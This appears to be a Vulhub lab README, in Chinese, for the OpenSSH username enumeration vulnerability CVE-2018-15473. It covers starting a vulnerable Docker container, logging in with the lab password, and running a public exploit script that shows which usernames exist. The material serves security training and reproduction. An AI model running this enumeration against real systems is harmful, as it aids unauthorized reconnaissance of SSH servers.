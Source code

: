 # OpenSSH 用户名枚举漏洞（CVE-2018-15473）

OpenSSH 7.7前存在一个用户名枚举漏洞，通过该漏洞，攻击者可以判断某个用户名是否存在于目标主机中。

参考链接：

- http://openwall.com/lists/oss-security/2018/08/15/5
- https://github.com/Rhynorater/CVE-2018-15473-Exploit
- https://www.anquanke.com/post/id/157607

## 漏洞环境

执行如下命令，编译及启动一个运行OpenSSH 7.7p1的容器：

```
docker-compose build
docker-compose up -d
```

环境启动后，我们在客户端执行`ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null root@your-ip -p20022`，输入密码`vulhub`，即可登录到容器中。

## 漏洞复现

使用[CVE-2018-15473-Exploit](https://github.com/Rhynorater/CVE-2018-15473-Exploit)，枚举字典中的用户名：

```
python3 sshUsernameEnumExploit.py --port 20022 --userList exampleInput.txt your-ip
```

![](1.png)

可见，`root`、`example`、`vulhub`、`nobody`是存在的用户，`rootInvalid`、`user`、`phithon`是不存在的用户。